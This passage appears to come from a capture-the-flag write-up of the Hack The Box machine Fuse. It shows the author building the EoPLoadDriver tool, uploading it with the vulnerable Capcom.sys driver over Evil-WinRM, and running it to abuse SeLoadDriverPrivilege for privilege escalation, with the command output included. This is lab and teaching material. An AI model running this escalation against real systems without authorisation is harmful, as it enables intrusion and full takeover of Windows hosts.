![image-20200619143555758](https://0xdfimages.gitlab.io/img/image-20200619143555758.png)

In the next window, I’ll name it EoPLoadDriver (though I can name it whatever
I want):

![image-20200619143829908](https://0xdfimages.gitlab.io/img/image-20200619143829908.png)

Now I have a “HelloWorld” project:

![image-20200619143913104](https://0xdfimages.gitlab.io/img/image-20200619143913104.png)

I’ll replace all the code in `EoPLoadDriver.cpp` with the code from
[GitHub](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp),
and save it. For some reason, it doesn’t like the `include "stdafx.h"`. This
is [some kind of Visual Studio
artifact](https://stackoverflow.com/questions/22621928/fatal-error-stdafx-h-
file-not-found), and it can be removed.

Now I’ll set the project to “Release” and “x64”:

![image-20200619144130467](https://0xdfimages.gitlab.io/img/image-20200619144130467.png)

Then I’ll select Build –> Build Solution, and the output at the bottom shows
it works:

![image-20200619144211509](https://0xdfimages.gitlab.io/img/image-20200619144211509.png)

I’ll copy `EoPLoadDriver.exe` back to my Kali host.

#### Execute

I’ll upload the driver and the loader to Fuse:

    
    
    *Evil-WinRM* PS C:\programdata> upload Capcom.sys
    Info: Uploading Capcom.sys to C:\programdata\Capcom.sys
    
                                                                 
    Data: 14100 bytes of 14100 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> upload EoPLoadDriver.exe
    Info: Uploading EoPLoadDriver.exe to C:\programdata\EoPLoadDriver.exe
    
                                                                 
    Data: 20480 bytes of 20480 bytes copied
    
    Info: Upload successful!
    

Run it just like in the blog post:

    
    
    *Evil-WinRM* PS C:\programdata> .\eoploaddriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
    [+] Enabling SeLoadDriverPrivilege
    [+] SeLoadDriverPrivilege Enabled
    [+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\dfserv
    NTSTATUS: 00000000, WinError: 0
    